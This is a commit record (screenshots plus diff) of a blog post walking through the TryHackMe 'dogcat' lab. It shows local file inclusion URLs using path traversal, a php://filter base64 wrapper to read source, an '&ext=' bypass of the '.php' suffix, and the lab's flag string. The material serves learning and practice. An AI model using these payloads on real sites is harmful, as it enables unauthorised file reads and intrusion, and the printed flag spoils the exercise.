

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-10-20-dogcat.md, in a window 1280 px wide and 1400 px high, scrolled down 568 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-10-20-dogcat.md

```diff
--- a/_posts/2025-10-20-dogcat.md
+++ b/_posts/2025-10-20-dogcat.md
@@ -14,57 +14,64 @@
 
 ## The machine description states:
 {% highlight bash %}
-"I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container."
+"I made a website where you can look at pictures of dogs and/or cats!
+Exploit a PHP application via LFI and break out of a docker container."
 {% endhighlight bash %}
+
+## Let's navigate to the webpage and attempt LFI (Local File Injection)
 <br>
-## Let's navigate to the webpage and attempt LFI (Local File Injection)
-## We can see by the URL that clicking the dog or cat image reveals the "view" parameter
+## Clicking the dog or cat image reveals the "view" parameter
 ## Modifying this to /etc/passwd we get an error message
+
+********PIC
+
 ## Judging by the error message, the URL must contain ‘dog’ or ‘cat’ in the search
 <br>
 
 ## With this new information, Lets modify the path again
 ## Maybe we can get lucky and find the flag
-## Searching:
 {% highlight bash %}
 http://10.201.86.214/?view=dog/../flag
 {% endhighlight bash %}
 ## This is acepted, but the code is not shown back to us
 <br>
 
-## Let's again try /etc/passwd:
-## We get another error message specifying that there is no ‘/etc/passwd.php’ file.
+## Let's again try /etc/passwd
+## We get another error message specifying that there is no ‘/etc/passwd.php’ file
+
+********PIC
+
 ## It looks like the web server is adding '.php' to our request
 <br>
 {% highlight bash %}
 ***Note
-when we include a .php file we wont be able to see the actual PHP code since it runs on the server.
-A way around this is to use a handy PHP wrapper to base64 encode the file which we can decode later on.
-Add a base64 filter converter to view the output, as php can only be viewed server side
+If we include a .php file we wont be able to see the actual PHP code since it runs on the server.
+A work-around is to use a handy PHP wrapper to base64 encode the file, then decode later
 {% endhighlight bash %}
+## Add a base64 filter converter to view the output, as php can only be viewed server side
 {% highlight bash %}
-example= php://filter/convert.base64-encode/resource=
+add to URL= php://filter/convert.base64-encode/resource=
 {% endhighlight bash %}
-<br>
 
 ## Lets try the flag file again
 {% highlight bash %}
 http://<target_IP>/?view=php://filter/convert.base64-encode/resource=dog/../flag
 {% endhighlight bash %}
+
 ## This outputs our flag in base64
 ## We can quickly use an online base64 decoder to get the output:
-[base64decode.org/](https://www.base64decode.org/)
+### [base64decode.org/](https://www.base64decode.org/)
 <br>
 {% highlight bash %}
 <?php
 $flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
 ?>
 {% endhighlight bash %}
-##Decoding the file we can verify it is php and that is why it was not output originally
+## Decoding the file we can verify it is php and that is why it was not output originally
 
 <br>
 ## Lets look at the index file
-## Maybe we can see how we can bypass the .php extension from being added altogether
+## Maybe we can bypass the .php extension from being added altogether
 {% highlight bash %}
 http://10.201.86.214/?view=php://filter/convert.base64-encode/resource=dog/../index
 {% endhighlight bash %}
@@ -74,13 +81,17 @@
 {% highlight bash %}
 $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
 {% endhighlight bash %}
-## There is an ‘ext’ parameter that specifies the file extention, if it is not set then it will be .php by default.
+## There is an ‘ext’ parameter that specifies the file extention
+If it is not set then it will be .php by default.
 ## This explains why .php is appended to all file requests.
 <br>
-## To bypass this we just set the ‘ext’ parameter
-## Add &ext= to bypass the .php filter being added
+## To bypass this we just add the ‘&ext=’ parameter to the end
 <br>
 ## We should have everything we need to bypass the filter now
+{% highlight bash %}
+1. Include dog or cat
+2. Add &ext= to the end of URL
+{% endhighlight bash %}
 ## We know that the Apache web server by default has an access log.
 ## We can view this log at:
 {% highlight bash %}
```
